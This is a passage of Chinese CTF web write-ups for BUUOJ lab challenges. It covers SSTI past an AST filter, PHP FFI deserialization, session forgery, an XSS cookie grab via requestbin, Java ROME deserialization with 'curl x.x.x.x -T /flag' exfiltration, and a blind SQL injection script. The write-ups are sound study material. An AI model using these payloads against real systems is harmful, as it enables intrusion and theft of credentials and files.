        ast.FloorDiv: " // ",
        ast.Mod: " * ",
        ast.Pow: " ** ",
        ast.LShift: " << ",
        ast.RShift: " >> ",
        ast.BitOr: " | ",
        ast.BitXor: " ^ ",
        ast.BitAnd: " & ",
        ast.MatMult: " @ ",

        ast.And: " and ",
        ast.Or: " or ",

        ast.Eq: " == ",
        ast.NotEq: " != ",
        ast.Lt: " < ",
        ast.LtE: " <= ",
        ast.Gt: " > ",
        ast.GtE: " >= ",
        ast.Is: " is ",
        ast.IsNot: " is not ",
        ast.In: " in ",
        ast.NotIn: " not in ",
}

def format_ast(node):

    if isinstance(node, ast.Expression):
        code = format_ast(node.body)
        if code[0] == "(" and code[-1] == ")":
            code = code[1:-1]
        return code
    if isinstance(node, ast.Num):
        return str(node.n)
    if isinstance(node, ast.UnaryOp):
        return operators[node.op.__class__] + format_ast(node.operand)
    if isinstance(node, ast.BinOp):
        return (
            "("
            + format_ast(node.left)
            + operators[node.op.__class__]
            + format_ast(node.right)
            + ")"
        )
    if isinstance(node, ast.BoolOp):
        return (
            "("
            + operators[node.op.__class__].join(
                [format_ast(value) for value in node.values]
            )
            + ")"
        )
    if isinstance(node, ast.Compare):
        return (
            "("
            + format_ast(node.left)
            + "".join(
                [
                    operators[node.ops[i].__class__] + format_ast(node.comparators[i])
                    for i in range(len(node.ops))
                ]
            )
            + ")"
        )


def check_ast(code_ast):
    for _, nodes in ast.iter_fields(code_ast):
        if type(nodes) != list:
            nodes = [nodes]
        for node in nodes:
            if node.__class__ not in whitelist:
                return False, node.__class__.__name__
            if not node.__class__ == ast.Num:
                result = check_ast(node)
                if not result[0]:
                    return result

    return True, None


def validate(code):
    if len(code) > 512:
        return False, "That's a bit too long m8"

    if "__" in code:
        return False, "I dont like that long floor m8"
    if "[" in code or "]" in code:
        return False, "I dont like that 3/4 of a rectangle m8"
    if '"' in code:
        return False, "I dont like those two small vertical lines m8"
    if "'" in code:
        return False, "I dont like that small vertical line m8"

    try:
        code_ast = ast.parse(code, mode="eval")
    except SyntaxError:
        return False, "Check your syntax m8"
    except ValueError:
        return False, "Handle your null bytes m8"

    result = check_ast(code_ast)
    if result[0]:
        return True, format_ast(code_ast)

    return False, f"You cant use ast.{result[1]} m8"
```

server 没有什么好说的, 我们主要关注 evalfilter.py 中的内容

与常规 ssti 过滤不同的地方在于他是通过 AST 抽象语法树来实现过滤操作

AST 简单来说就是对于源代码 (字符串形式) 的抽象表示, 通过树状结构来表示编程语言的语法结构

在 python 中自带了一个 ast 库便于我们生成对应源码的语法树


稍微排版一下

```python
Module(
	body = [
		Assign(targets = [Name(id = 'a', ctx = Store())], value = Constant(value = 1)),
		Assign(targets = [Name(id = 'b', ctx = Store())], value = Constant(value = 2)),
		FunctionDef(
			name = 'add',
			args = arguments(
				posonlyargs = [],
				args = [arg(arg = 'x'), arg(arg = 'y')],
				kwonlyargs = [],
				kw_defaults = [],
				defaults = []
			),
			body = [
				Return(
					value = BinOp(
						left = Name(id = 'a', ctx = Load()),
						op = Add(),
						right = Name(id = 'b', ctx = Load()),
						)
					)
				],
			decorator_list = []
		),
		Assign(
			targets = [Name(id = 'c', ctx = Store())],
			value = Call(
				func = Name(id = 'add', ctx = Load()),
				args = [Name(id = 'a', ctx = Load()), Name(id = 'b', ctx = Load())],
				keywords = []
			)
		),
		Expr(
			value = Call(
				func = Name(id = 'print', ctx = Load()),
				args = [Name(id = 'c', ctx = Load())],
				keywords = []
			)
		)
	],
	type_ignores = []
)
```

具体参考文档 [https://docs.python.org/zh-cn/3/library/ast.html](https://docs.python.org/zh-cn/3/library/ast.html)

我们到现在为止只需要知道他会把我们输入代码中的每一个 token 都转换为一个节点类来表示 (Assign, FunctionDef, Return, Call, Expr...) 即可

evilfilter 首先通过 ast 中的节点类来定义 whitelist, 然后定义 operators (运算符)

然后定义了三个函数, 分别是 `format_ast`, `check_ast` 和 `validate`

先看 validate

```python
def validate(code):
    if len(code) > 512:
        return False, "That's a bit too long m8"

    if "__" in code:
        return False, "I dont like that long floor m8"
    if "[" in code or "]" in code:
        return False, "I dont like that 3/4 of a rectangle m8"
    if '"' in code:
        return False, "I dont like those two small vertical lines m8"
    if "'" in code:
        return False, "I dont like that small vertical line m8"

    try:
        code_ast = ast.parse(code, mode="eval")
    except SyntaxError:
        return False, "Check your syntax m8"
    except ValueError:
        return False, "Handle your null bytes m8"

    result = check_ast(code_ast)
    if result[0]:
        return True, format_ast(code_ast)

    return False, f"You cant use ast.{result[1]} m8"
```

首先通过常规方式来过滤一些字符, 然后调用 `check_ast`

```python
def check_ast(code_ast):
    for _, nodes in ast.iter_fields(code_ast):
        if type(nodes) != list:
            nodes = [nodes]
        for node in nodes:
            if node.__class__ not in whitelist:
                return False, node.__class__.__name__
            if not node.__class__ == ast.Num:
                result = check_ast(node)
                if not result[0]:
                    return result

    return True, None
```

在 `check_ast` 中通过递归来遍历树中的每一个节点, 并判断节点是否在白名单中

最后给出判断结果, 回到 `validate` 函数, 如果都在白名单中则调用 `format_ast` 并返回 true, 否则返回 false 并给出被禁止的 ast 节点类

马后炮一下, 在这里根据错误信息应该多少能看出来一点东西 (


毕竟以 `ast.` 开头, 如果提前知道 ast 和污点分析的话应该很容易想到绕过方式 (说到底还是我太菜了)

最后还有个 `format_ast`, 作用是根据语法树来还原代码

```python
def format_ast(node):

    if isinstance(node, ast.Expression):
        code = format_ast(node.body)
        if code[0] == "(" and code[-1] == ")":
            code = code[1:-1]
        return code
    if isinstance(node, ast.Num):
        return str(node.n)
    if isinstance(node, ast.UnaryOp):
        return operators[node.op.__class__] + format_ast(node.operand)
    if isinstance(node, ast.BinOp):
        return (
            "("
            + format_ast(node.left)
            + operators[node.op.__class__]
            + format_ast(node.right)
            + ")"
        )
    if isinstance(node, ast.BoolOp):
        return (
            "("
            + operators[node.op.__class__].join(
                [format_ast(value) for value in node.values]
            )
            + ")"
        )
    if isinstance(node, ast.Compare):
        return (
            "("
            + format_ast(node.left)
            + "".join(
                [
                    operators[node.ops[i].__class__] + format_ast(node.comparators[i])
                    for i in range(len(node.ops))
                ]
            )
            + ")"
        )
```

说了这么多 ast 的内容, 其实对于题目本身来说绕过的点很简单, 那就是用 ast 生成语法树的时候不会生成注释所对应的节点


`# {{config}}` 这个注释完全就被后面的 `check_ast` 函数忽略了

再说一下为什么需要通过 `1/0` 的形式报错才能够 ssti

```python
@app.route("/", methods=["GET", "POST"])
def index():
    if not session.get("history"):
        session["history"] = []

    if request.method == "POST":
        result = validate(request.form["code"])
        if not result[0]:
            return result[1]

        session["history"].append({"code": result[1]})
        if len(session["history"]) > 5:
            session["history"] = session["history"][1:]
        session.modified = True

        try:
            eval(request.form["code"])
        except:
            error = traceback.format_exc(limit=0)[35:]
            session["history"][-1]["error"] = render_template_string(
                f'Traceback (most recent call last):\n  File "somewhere", line something, in something\n    result = {request.form["code"]}\n{error}'
            )

    history = []
    for calculation in session["history"]:
        history.append({**calculation})
        if not calculation.get("error"):
            history[-1]["result"] = eval(calculation["code"])

    return render_template("index.html", history=list(reversed(history)))
```

可以看到报错的时候传入的还是 `request.form["code"]`, 而 `format_ast` 生成的代码存在了 `session['history']` 里面, 之后才执行 eval

因为生成的语法树里面没有注释, 所以反推过来的代码肯定也没有注释

如果不走 except 流程的话, 正常的代码会经过一次 ast 解析然后反推的步骤, 最终从 `session['history']` 取出代码执行 eval, 然后写入 history result, 这个过程肯定不会存在 ssti

所以必须要让执行的代码报错, 然后进入 except 才能 ssti

## [RCTF 2019]Nextphp

index.php

```php
<?php
if (isset($_GET['a'])) {
    eval($_GET['a']);
} else {
    show_source(__FILE__);
}
```

preload.php

```php
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'print_r',
        'arg' => '1'
    ];

    private function run () {
        $this->data['ret'] = $this->data['func']($this->data['arg']);
    }

    public function __serialize(): array {
        return $this->data;
    }

    public function __unserialize(array $data) {
        array_merge($this->data, $data);
        $this->run();
    }

    public function serialize (): string {
        return serialize($this->data);
    }

    public function unserialize($payload) {
        $this->data = unserialize($payload);
        $this->run();
    }

    public function __get ($key) {
        return $this->data[$key];
    }

    public function __set ($key, $value) {
        throw new \Exception('No implemented');
    }

    public function __construct () {
        throw new \Exception('No implemented');
    }
}
```

phpinfo (php 7.4)


需要绕过 disable\_functions, 另外 open\_basedir 也限制成了当前目录

7.4 试了下 backtrace uaf 不行, 那就只剩 ffi 了

参考文档

[https://www.php.net/manual/zh/ffi.configuration.php](https://www.php.net/manual/zh/ffi.configuration.php)

[https://www.php.net/manual/zh/opcache.preloading.php](https://www.php.net/manual/zh/opcache.preloading.php)


默认仅允许从被 preload 的文件中调用 ffi

但 op.preload 指定的文件只会在服务器启动时被预加载, 所以我们需要利用它已有的 class 来反序列化调用 ffi

ffi 基本形式

```php
<?php
$ffi = FFI::cdef("int system(const char *command);");
$ffi->system("whoami >/tmp/1");
echo file_get_contents("/tmp/1");
@unlink("/tmp/1");
?>
```

构造反序列化

```php
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'FFI::cdef',
        'arg' => 'int system(const char *command);'
    ];

    private function run () {
        $this->data['ret'] = $this->data['func']($this->data['arg']);
    }

    public function __serialize(): array {
        return $this->data;
    }

    public function __unserialize(array $data) {
        array_merge($this->data, $data);
        $this->run();
    }

    public function serialize(): string {
        return serialize($this->data);
    }

    public function unserialize($payload) {
        $this->data = unserialize($payload);
        $this->run();
    }
}

$a = new A();
echo urlencode(serialize($a));
```

```
http://f700efac-15ac-49d3-add3-50a452221de2.node4.buuoj.cn:81/?a=unserialize(urldecode('C%3A1%3A%22A%22%3A95%3A%7Ba%3A3%3A%7Bs%3A3%3A%22ret%22%3BN%3Bs%3A4%3A%22func%22%3Bs%3A9%3A%22FFI%3A%3Acdef%22%3Bs%3A3%3A%22arg%22%3Bs%3A32%3A%22int+system%28const+char+%2Acommand%29%3B%22%3B%7D%7D'))->ret->system('cat /flag > /var/www/html/res.txt');
```


看 wp 的时候发现有人提到说需要把 `__serialize()` 方法的定义删掉才行

翻了下官方文档


[https://www.php.net/manual/zh/class.serializable](https://www.php.net/manual/zh/class.serializable)


自己生成 payload 时的 php 版本为 7.2, 所以没有这个问题, 大于 7.4 版本就需要删了

然后提一句, 继承了 Serializable 接口的类序列化后得到的字符串以 `C` 开头而不是 `O`

另外这个接口的序列化/反序列化逻辑感觉跟 java 挺像的 (

## [BSidesCF 2019]Pick Tac Toe

一开始没搞懂要干什么, 看到 cookie 中的 `rack.session` 还在想是不是 ruby 反序列化

然后发现是要下棋...

```
ul u ur
l  c r
bl b br
```

从浏览器的角度来看, 机器人下过的地方我们是点不了的

但是可以通过 burp 抓包来修改, 改到一处机器人下过的地方, 就能拿到 flag


## [CSAWQual 2016]i_got_id

black asia 2016 的议题, 挺有意思的

[https://www.blackhat.com/docs/asia-16/materials/asia-16-Rubin-The-Perl-Jam-2-The-Camel-Strikes-Back.pdf](https://www.blackhat.com/docs/asia-16/materials/asia-16-Rubin-The-Perl-Jam-2-The-Camel-Strikes-Back.pdf)

考虑如下 perl 脚本

```perl
use strict;
use warnings;
use CGI;
my $cgi = CGI->new; 
if ( $cgi->upload( 'file' ) ) {
	my $file = $cgi->param( 'file' );
	while ( <$file> ) {
		print "$_";
	}
}
```

首先 `$cgi->upload('file')` 检测多个名为 file 的参数是否为上传表单

然后 `$cgi->param('file')` 会返回一个包含多个 file 的 list, 但是只有第一个会被赋值给 `$file` 变量

思路就是先 post file 上传表单, 同时传递一个在首位的 file 参数并指定值为 `ARGV`, 最后在 get 后面传入要读取的文件即可 (ppt 提到 `<>` 不接受普通字符串, 但是会解析 `ARGV` 这个变量)


也可以执行命令


## [SWPU2019]Web3

随便输入账号密码登入后有文件上传, 但是普通用户没有权限

404 header 存在 `swpuctf_csrf_token`


base64 解码后内容为 `SECRET_KEY:keyqqqwwweee!@#$%^&*`

然后伪造 admin session


文件上传


```python
@app.route('/upload',methods=['GET','POST'])
def upload():
    if session['id'] != b'1':
        return render_template_string(temp)
    if request.method=='POST':
        m = hashlib.md5()
        name = session['password']
        name = name+'qweqweqwe'
        name = name.encode(encoding='utf-8')
        m.update(name)
        md5_one= m.hexdigest()
        n = hashlib.md5()
        ip = request.remote_addr
        ip = ip.encode(encoding='utf-8')
        n.update(ip)
        md5_ip = n.hexdigest()
        f=request.files['file']
        basepath=os.path.dirname(os.path.realpath(__file__))
        path = basepath+'/upload/'+md5_ip+'/'+md5_one+'/'+session['username']+"/"
        path_base = basepath+'/upload/'+md5_ip+'/'
        filename = f.filename
        pathname = path+filename
        if "zip" != filename.split('.')[-1]:
            return 'zip only allowed'
        if not os.path.exists(path_base):
            try:
                os.makedirs(path_base)
            except Exception as e:
                return 'error'
        if not os.path.exists(path):
            try:
                os.makedirs(path)
            except Exception as e:
                return 'error'
        if not os.path.exists(pathname):
            try:
                f.save(pathname)
            except Exception as e:
                return 'error'
        try:
            cmd = "unzip -n -d "+path+" "+ pathname
            if cmd.find('|') != -1 or cmd.find(';') != -1:
				waf()
                return 'error'
            os.system(cmd)
        except Exception as e:
            return 'error'
        unzip_file = zipfile.ZipFile(pathname,'r')
        unzip_filename = unzip_file.namelist()[0]
        if session['is_login'] != True:
            return 'not login'
        try:
            if unzip_filename.find('/') != -1:
                shutil.rmtree(path_base)
                os.mkdir(path_base)
                return 'error'
            image = open(path+unzip_filename, "rb").read()
            resp = make_response(image)
            resp.headers['Content-Type'] = 'image/png'
            return resp
        except Exception as e:
            shutil.rmtree(path_base)
            os.mkdir(path_base)
            return 'error'
    return render_template('upload.html')


@app.route('/showflag')
def showflag():
    if True == False:
        image = open(os.path.join('./flag/flag.jpg'), "rb").read()
        resp = make_response(image)
        resp.headers['Content-Type'] = 'image/png'
        return resp
    else:
        return "can't give you"
```

通过软链接连接到 `./flag/flag.jpg`


当然 filename 处也能执行命令


## [HarekazeCTF2019]Easy Notes

题目其实给了源码, 但是 buu 没说

下面只贴关键地方的源码

lib.php

```php
<?php
function redirect($path) {
  header('Location: ' . $path);
  exit();
}

// utility functions
function e($str) {
  return htmlspecialchars($str, ENT_QUOTES);
}

// user-related functions
function validate_user($user) {
  if (!is_string($user)) {
    return false;
  }

  return preg_match('/\A[0-9A-Z_-]{4,64}\z/i', $user);
}

function is_logged_in() {
  return isset($_SESSION['user']) && !empty($_SESSION['user']);
}

function set_user($user) {
  $_SESSION['user'] = $user;
}

function get_user() {
  return $_SESSION['user'];
}

function is_admin() {
  if (!isset($_SESSION['admin'])) {
    return false;
  }
  return $_SESSION['admin'] === true;
}

// note-related functions
function get_notes() {
  if (!isset($_SESSION['notes'])) {
    $_SESSION['notes'] = [];
  }
  return $_SESSION['notes'];
}

function add_note($title, $body) {
  $notes = get_notes();
  array_push($notes, [
    'title' => $title,
    'body' => $body,
    'id' => hash('sha256', microtime())
  ]);
  $_SESSION['notes'] = $notes;
}

function find_note($notes, $id) {
  for ($index = 0; $index < count($notes); $index++) {
    if ($notes[$index]['id'] === $id) {
      return $index;
    }
  }
  return FALSE;
}

function delete_note($id) {
  $notes = get_notes();
  $index = find_note($notes, $id);
  if ($index !== FALSE) {
    array_splice($notes, $index, 1);
  }
  $_SESSION['notes'] = $notes;
}
```

export.php

```php
<?php
require_once('init.php');

if (!is_logged_in()) {
  redirect('/easy-notes/?page=home');
}

$notes = get_notes();

if (!isset($_GET['type']) || empty($_GET['type'])) {
  $type = 'zip';
} else {
  $type = $_GET['type'];
}

$filename = get_user() . '-' . bin2hex(random_bytes(8)) . '.' . $type;
$filename = str_replace('..', '', $filename); // avoid path traversal
$path = TEMP_DIR . '/' . $filename;

if ($type === 'tar') {
  $archive = new PharData($path);
  $archive->startBuffering();
} else {
  // use zip as default
  $archive = new ZipArchive();
  $archive->open($path, ZIPARCHIVE::CREATE | ZipArchive::OVERWRITE);
}

for ($index = 0; $index < count($notes); $index++) {
  $note = $notes[$index];
  $title = $note['title'];
  $title = preg_replace('/[^!-~]/', '-', $title);
  $title = preg_replace('#[/\\?*.]#', '-', $title); // delete suspicious characters
  $archive->addFromString("{$index}_{$title}.json", json_encode($note));
}

if ($type === 'tar') {
  $archive->stopBuffering();
} else {
  $archive->close();
}

header('Content-Disposition: attachment; filename="' . $filename . '";');
header('Content-Length: ' . filesize($path));
header('Content-Type: application/zip');
readfile($path);
```

init.php

```php
<?php

require_once('config.php');
require_once('lib.php');

session_save_path(TEMP_DIR);
session_start();

var_dump($_SESSION);
```

config.php

```php
<?php
define('TEMP_DIR', 'tmp/');
```

这题总的来说很有意思 (毕竟国外比赛), 关键在于如何利用 session 保存路径和 export 时的保存路径一致这个点来伪造 session

本地搭建一下看看 session 文件的内容

```php
user|s:5:"sess_";notes|a:1:{i:0;a:3:{s:5:"title";s:3:"aaa";s:4:"body";s:3:"bbb";s:2:"id";s:64:"5e06710fa757960b2f4a88f7df0c3385f24d563e7a0f7120aec6a77233a3062c";}}
```

session 中的每一个属性通过 `;` 来分隔

然后我们需要凭空伪造出 `$_SESSION['admin'] = true` 这一条内容, 即 `admin|b:1;`

恰好 session 保存路径和 export 时的保存路径一样, 且经过测试发现题目使用了 `php` 这个 `session.serialize.handler`

然后 export 的文件名后缀可控, `$filename = get_user() . '-' . bin2hex(random_bytes(8)) . '.' . $type;` 这句中的字符也符合 session id 的规定

最重要的是, 在导出压缩包的时候程序会将 note title 作为文件名写入 zip 文件, 而文件名在 zip raw 内容中可见

所以最终的思路就是以 `sess_` 作为用户名登录, 添加一个 title 为 `N;admin|b:1;` 的 note, 然后导出一个名字为 `sess_-xxxxxxxx` 的压缩文件到 tmp dir 下, 最后修改 phpsessid 为 `-xxxxxxxx`, 就可以成功伪造 session 得到 flag


## [FBCTF2019]Event

python 格式化字符串漏洞

[https://www.leavesongs.com/PENETRATION/python-string-format-vulnerability.html](https://www.leavesongs.com/PENETRATION/python-string-format-vulnerability.html)

[https://www.anquanke.com/post/id/170620](https://www.anquanke.com/post/id/170620)


然后通过命名空间找到 flask app config

```python
__class__.__init__.__globals__
__class__.__init__.__globals__[app]
__class__.__init__.__globals__[app].config
```

注意这里中括号里面不能带引号, 原因如下


最后用 flask-unsign 构造 session


题目源码

[https://github.com/fbsamples/fbctf-2019-challenges/blob/main/web/events/app/app.py](https://github.com/fbsamples/fbctf-2019-challenges/blob/main/web/events/app/app.py)


最下面还有一个 `e.fmt.format(e)`

其实就是第一次格式化的 fmt 内容可控, 然后通过这个 fmt 第二次 format, 造成了字符串格式化漏洞

有一种二次注入的感觉

`0` 占位符表示的是 Event 对象


## [HFCTF 2021 Final]easyflask

```python
#!/usr/bin/python3.6
import os
import pickle

from base64 import b64decode
from flask import Flask, request, render_template, session

app = Flask(__name__)
app.config["SECRET_KEY"] = "*******"

User = type('User', (object,), {
    'uname': 'test',
    'is_admin': 0,
    '__repr__': lambda o: o.uname,
})


@app.route('/', methods=('GET',))
def index_handler():
    if not session.get('u'):
        u = pickle.dumps(User())
        session['u'] = u
    return "/file?file=index.js"


@app.route('/file', methods=('GET',))
def file_handler():
    path = request.args.get('file')
    path = os.path.join('static', path)
    if not os.path.exists(path) or os.path.isdir(path) \
            or '.py' in path or '.sh' in path or '..' in path or "flag" in path:
        return 'disallowed'

    with open(path, 'r') as fp:
        content = fp.read()
    return content


@app.route('/admin', methods=('GET',))
def admin_handler():
    try:
        u = session.get('u')
        if isinstance(u, dict):
            u = b64decode(u.get('b'))
        u = pickle.loads(u)
    except Exception:
        return 'uhh?'

    if u.is_admin == 1:
        return 'welcome, admin'
    else:
        return 'who are you?'


if __name__ == '__main__':
    app.run('0.0.0.0', port=80, debug=False)
```

简单 pickle 反序列化

```
http://183edc6a-3426-40de-bef6-f395e53deb8e.node4.buuoj.cn:81/file?file=/proc/self/environ
```


构造 payload


## [网鼎杯 2020 青龙组]notes

```javascript
var express = require('express');
var path = require('path');
const undefsafe = require('undefsafe');
const { exec } = require('child_process');


var app = express();
class Notes {
    constructor() {
        this.owner = "whoknows";
        this.num = 0;
        this.note_list = {};
    }

    write_note(author, raw_note) {
        this.note_list[(this.num++).toString()] = {"author": author,"raw_note":raw_note};
    }

    get_note(id) {
        var r = {}
        undefsafe(r, id, undefsafe(this.note_list, id));
        return r;
    }

    edit_note(id, author, raw) {
        undefsafe(this.note_list, id + '.author', author);
        undefsafe(this.note_list, id + '.raw_note', raw);
    }

    get_all_notes() {
        return this.note_list;
    }

    remove_note(id) {
        delete this.note_list[id];
    }
}

var notes = new Notes();
notes.write_note("nobody", "this is nobody's first note");


app.set('views', path.join(__dirname, 'views'));
app.set('view engine', 'pug');

app.use(express.json());
app.use(express.urlencoded({ extended: false }));
app.use(express.static(path.join(__dirname, 'public')));


app.get('/', function(req, res, next) {
  res.render('index', { title: 'Notebook' });
});

app.route('/add_note')
    .get(function(req, res) {
        res.render('mess', {message: 'please use POST to add a note'});
    })
    .post(function(req, res) {
        let author = req.body.author;
        let raw = req.body.raw;
        if (author && raw) {
            notes.write_note(author, raw);
            res.render('mess', {message: "add note sucess"});
        } else {
            res.render('mess', {message: "did not add note"});
        }
    })

app.route('/edit_note')
    .get(function(req, res) {
        res.render('mess', {message: "please use POST to edit a note"});
    })
    .post(function(req, res) {
        let id = req.body.id;
        let author = req.body.author;
        let enote = req.body.raw;
        if (id && author && enote) {
            notes.edit_note(id, author, enote);
            res.render('mess', {message: "edit note sucess"});
        } else {
            res.render('mess', {message: "edit note failed"});
        }
    })

app.route('/delete_note')
    .get(function(req, res) {
        res.render('mess', {message: "please use POST to delete a note"});
    })
    .post(function(req, res) {
        let id = req.body.id;
        if (id) {
            notes.remove_note(id);
            res.render('mess', {message: "delete done"});
        } else {
            res.render('mess', {message: "delete failed"});
        }
    })

app.route('/notes')
    .get(function(req, res) {
        let q = req.query.q;
        let a_note;
        if (typeof(q) === "undefined") {
            a_note = notes.get_all_notes();
        } else {
            a_note = notes.get_note(q);
        }
        res.render('note', {list: a_note});
    })

app.route('/status')
    .get(function(req, res) {
        let commands = {
            "script-1": "uptime",
            "script-2": "free -m"
        };
        for (let index in commands) {
            exec(commands[index], {shell:'/bin/bash'}, (err, stdout, stderr) => {
                if (err) {
                    return;
                }
                console.log(`stdout: ${stdout}`);
            });
        }
        res.send('OK');
        res.end();
    })


app.use(function(req, res, next) {
  res.status(404).send('Sorry cant find that!');
});


app.use(function(err, req, res, next) {
  console.error(err.stack);
  res.status(500).send('Something broke!');
});


const port = 8080;
app.listen(port, () => console.log(`Example app listening at http://localhost:${port}`))
```

一眼原型链污染

undefsafe CVE-2019-10795

[https://security.snyk.io/vuln/SNYK-JS-UNDEFSAFE-548940](https://security.snyk.io/vuln/SNYK-JS-UNDEFSAFE-548940)




## [CISCN2019 华东北赛区]Web2

注册登录发表文章, 有一个反馈的功能可以向管理员提交 url

一眼 xss, 但是发表文章的地方存在 csp, 并且过滤了一堆字符 (等于号 小括号 单双引号...)

csp 如下, 用跳转绕过就行

```html
<meta http-equiv="content-security-policy" content="default-src 'self'; script-src 'unsafe-inline' 'unsafe-eval'">
```

xss 绕过的参考文章: [https://xz.aliyun.com/t/9606#toc-42](https://xz.aliyun.com/t/9606#toc-42)

原理是 svg 会以 xml 的标准来解析标签内部的内容, 而 xml 标准会解码 html 实体字符, 所以就可以绕过过滤造成 xss

简单搜了一下

[https://zh.wikipedia.org/wiki/%E5%8F%AF%E7%B8%AE%E6%94%BE%E5%90%91%E9%87%8F%E5%9C%96%E5%BD%A2](https://zh.wikipedia.org/wiki/%E5%8F%AF%E7%B8%AE%E6%94%BE%E5%90%91%E9%87%8F%E5%9C%96%E5%BD%A2)

https://www.runoob.com/svg/svg-intro.html

不难发现 svg 其实基于 xml


之前也遇到过 svg 造成 xxe 的例子

[https://zhuanlan.zhihu.com/p/323315064](https://zhuanlan.zhihu.com/p/323315064)

然后 xml 会解析 html 实体编码, 试一下就知道了


所以原理具体一点来说就是当 html 解析器识别到 svg 标签时, 会进入到 xml 解析环境, 先对 svg 标签里面的 html 实体字符进行解码, 然后识别到 script 标签, 进入 javascript 环境, 再去解析 js 语法

题目不出网, 所以用 buu requestbin 来获取 cookie (buu xss 平台目前好像无法注册?)

```html
<svg><script>location.href="http://http.requestbin.buuoj.cn/171h9361"</script></svg>
```

编码

```html
<svg><script>&#x6C;&#x6F;&#x63;&#x61;&#x74;&#x69;&#x6F;&#x6E;&#x2E;&#x68;&#x72;&#x65;&#x66;&#x3D;&#x22;&#x68;&#x74;&#x74;&#x70;&#x3A;&#x2F;&#x2F;&#x68;&#x74;&#x74;&#x70;&#x2E;&#x72;&#x65;&#x71;&#x75;&#x65;&#x73;&#x74;&#x62;&#x69;&#x6E;&#x2E;&#x62;&#x75;&#x75;&#x6F;&#x6A;&#x2E;&#x63;&#x6E;&#x2F;&#x31;&#x37;&#x31;&#x68;&#x39;&#x33;&#x36;&#x31;&#x3F;&#x22;</script></svg>
```

跑一下验证码

```python
from hashlib import md5

for i in range(100000000):
    m = md5(str(i)).hexdigest()[0:6]
    # print(m) # 去掉这句再跑会快很多很多, 原因是 print 输出本身就会耗费大量的时间
    if m == '036413':
        print(i)
        exit()
```


之后访问 `/admin.php`, 查询处是个简单的 sql 注入


## [网鼎杯 2020 朱雀组]Think Java

`/swagger-ui.html` 泄露


附件中也有提示


然后 dbName 存在 sql 注入


因为 jdbc 的格式类似于 url, 所以可以用 url 中的 `#` 或者传入一个不存在的参数来防止连接数据库时报错

```mysql
myapp#' union select pwd from user #
myapp#' union select name from user #

myapp?a=' union select pwd from user #
myapp?a=' union select name from user #
```


登录后会返回 base64


这一串其实不是 jwt... 连个 `.` 都没有, 解密一下就会发现是 java 序列化后的数据


于是把 ysoserial 中的反序列化链子都试一遍, 发现是 ROME 链

```bash
java -jar ysoserial-all.jar ROME 'curl x.x.x.x:yyyy -T /flag' | base64 -w0
```


最后引用一下网上 wp 中提到的 trick

> 一段数据以 `rO0AB` 开头, 你基本可以确定这串就是 Java 序列化 base64 加密的数据
>
> 或者如果以 `aced` 开头, 那么他就是这一段 Java 序列化的 16 进制

## [PwnThyBytes 2019]Baby_SQL

source.zip 源码泄露

index.php

```php
<?php
session_start();

foreach ($_SESSION as $key => $value): $_SESSION[$key] = filter($value); endforeach;
foreach ($_GET as $key => $value): $_GET[$key] = filter($value); endforeach;
foreach ($_POST as $key => $value): $_POST[$key] = filter($value); endforeach;
foreach ($_REQUEST as $key => $value): $_REQUEST[$key] = filter($value); endforeach;

function filter($value)
{
    !is_string($value) AND die("Hacking attempt!");

    return addslashes($value);
}

isset($_GET['p']) AND $_GET['p'] === "register" AND $_SERVER['REQUEST_METHOD'] === 'POST' AND isset($_POST['username']) AND isset($_POST['password']) AND @include('templates/register.php');
isset($_GET['p']) AND $_GET['p'] === "login" AND $_SERVER['REQUEST_METHOD'] === 'GET' AND isset($_GET['username']) AND isset($_GET['password']) AND @include('templates/login.php');
isset($_GET['p']) AND $_GET['p'] === "home" AND @include('templates/home.php');

?>
```

login.php

```php
<?php

!isset($_SESSION) AND die("Direct access on this script is not allowed!");
include 'db.php';

$sql = 'SELECT `username`,`password` FROM `ptbctf`.`ptbctf` where `username`="' . $_GET['username'] . '" and password="' . md5($_GET['password']) . '";';
$result = $con->query($sql);

function auth($user)
{
    $_SESSION['username'] = $user;
    return True;
}

($result->num_rows > 0 AND $row = $result->fetch_assoc() AND $con->close() AND auth($row['username']) AND die('<meta http-equiv="refresh" content="0; url=?p=home" />')) OR ($con->close() AND die('Try again!'));

?>
```

index.php 对 get post session 几个全局变量都做了 addslashes 处理, 无法 sql 注入

但是 login.php 中仅仅判断了 `isset($_SESSION)`, 如果存在任意一个 session 值就可以继续执行下去, 而下面的 get 全局变量并没有 addslashes, 所以在这里可以造成注入

不过有一个问题就是 login.php 开头没有 `session_start()`

[https://www.php.net/manual/zh/session.configuration.php](https://www.php.net/manual/zh/session.configuration.php)


`session.auto_start` 配置默认也是不启动

然后找到了 `session.upload_progress`


之前 session 反序列化或者 lfi 的时候都遇到过, 一般默认都是开启的

本地可以 `var_dump` 测试一下, 即便没有手动调用 `session_start();` 也还是能够填充 `$_SESSION` 变量


sql 注入


脚本如下

```python
import requests
import time

flag = ''

i = 1

while True:

    min = 32
    max = 127

    while min < max:
        time.sleep(0.2)
        mid = (min + max) // 2
        print(chr(mid))

        payload = '" or if(ascii(substr((select group_concat(secret) from flag_tbl),{},1))>{},1,0)%23'.format(i, mid)
        url = 'http://5444b2d7-028a-4a39-898e-4eb3356253ed.node4.buuoj.cn:81/templates/login.php?username={}&password=123'.format(payload)
        res = requests.post(url, files={'file': ('123', '456')},data={'PHP_SESSION_UPLOAD_PROGRESS': 'xxx'}, cookies={'PHPSESSID': '789'})
        if 'Try again!' not in res.text:
            min = mid + 1
        else:
            max = mid
    flag += chr(min)
    i += 1

    print('found', flag)
```

## [HITCON 2016]Leaking

```javascript
"use strict";

var randomstring = require("randomstring");
var express = require("express");
var {
    VM
} = require("vm2");
var fs = require("fs");

var app = express();
var flag = require("./config.js").flag

app.get("/", function(req, res) {
    res.header("Content-Type", "text/plain");

    /*    Orange is so kind so he put the flag here. But if you can guess correctly :P    */
    eval("var flag_" + randomstring.generate(64) + " = \"hitcon{" + flag + "}\";")
    if (req.query.data && req.query.data.length <= 12) {
        var vm = new VM({
            timeout: 1000
        });
        console.log(req.query.data);
        res.send("eval ->" + vm.run(req.query.data));
    } else {
